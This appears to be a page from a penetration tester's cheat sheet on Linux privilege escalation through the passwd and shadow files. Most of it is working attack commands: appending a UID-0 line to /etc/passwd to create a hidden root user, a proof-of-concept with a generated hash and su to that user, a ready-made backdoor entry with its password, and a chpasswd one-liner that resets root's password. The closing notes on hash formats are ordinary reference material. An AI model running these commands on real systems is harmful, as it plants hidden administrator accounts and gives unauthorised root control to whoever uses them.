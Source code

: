 ### Use of passwd for privilege escalation

* privilege escalation on Linux may make use of passwd file if something can be appended to it (perform recon)
* For example kernel exploit can be compiled to execute arbitrary command to add a line to passwd file as root to make a hidden user with admin rights...

So to **make oracle user root account**, it is sufficient to add following line

<code> oracle:x:0:0::/:/bin/bash </code>

Additionally one may generate a password hash with crypt function and add it the second position instead of x. 

```bash
#POC for password generation and injection into /etc/passwd

openssl passwd w00t
#Fdzt.eqJQ4s0g

echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

su root2
w00t

id
```

<code> pentester:$1$2AL4ULeB$vPb2hnoy5xgsBueJSXTsj0:0:0::/:/bin/bash </code>
Password1

#### fast change password


`echo root:toor | chpasswd`

### Shadow file 

#### make shadow files

Generate shadow files ([stackoverflow](https://unix.stackexchange.com/questions/81240/manually-generate-password-for-etc-shadow)):

<code> openssl passwd -6 -salt xyz  yourpass </code>

Note: passing -1 will generate an MD5 password, -5 a SHA256 and -6 SHA512 (recommended)

To understand which hash you need, check what is $X$:

username:$X$salt$pass....

* $1$ is MD5
* $2a$ is Blowfish
* $2y$ is Blowfish
* $5$ is SHA-256
* $6$ is SHA-512
